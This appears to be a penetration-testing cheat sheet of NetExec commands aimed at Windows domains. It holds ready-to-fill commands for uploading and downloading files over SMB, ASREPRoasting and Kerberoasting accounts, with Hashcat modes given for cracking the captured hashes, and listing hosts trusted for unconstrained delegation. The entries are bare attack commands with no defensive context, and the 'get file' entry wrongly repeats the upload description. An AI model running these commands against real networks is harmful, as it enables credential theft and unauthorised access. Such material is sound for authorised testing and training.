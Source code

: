 ## nxc - put file
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
nxc smb <rhost> -u <user> -p <password> --put-file <local_file> <remote_path|\\Windows\\Temp\\target.txt>
```

## nxc - get file
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
nxc smb <rhost> -u <user> -p <password> --get-file <remote_path|\\Windows\\Temp\\target.txt> <local_file>
```

## nxc - ASREPRoast enum without authentication
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

User can be a wordlist too (user.txt)
Hashcat format  -m 18200 

```bash
nxc ldap <rhost> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <rhost>
```

## nxc - ASREPRoast enum with authentication
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON  

Hashcat format  -m 18200 

```bash
nxc ldap <rhost> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <rhost>
```

## nxc - Kerberoasting
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

Hashcat format  -m 13100

```bash
nxc ldap <rhost> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <rhost>
```

## nxc - Unconstrained delegation
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

List of all computers et users with the flag TRUSTED_FOR_DELEGATION

```bash
nxc ldap <rhost> -u <user> -p '<password>' --trusted-for-delegation
```
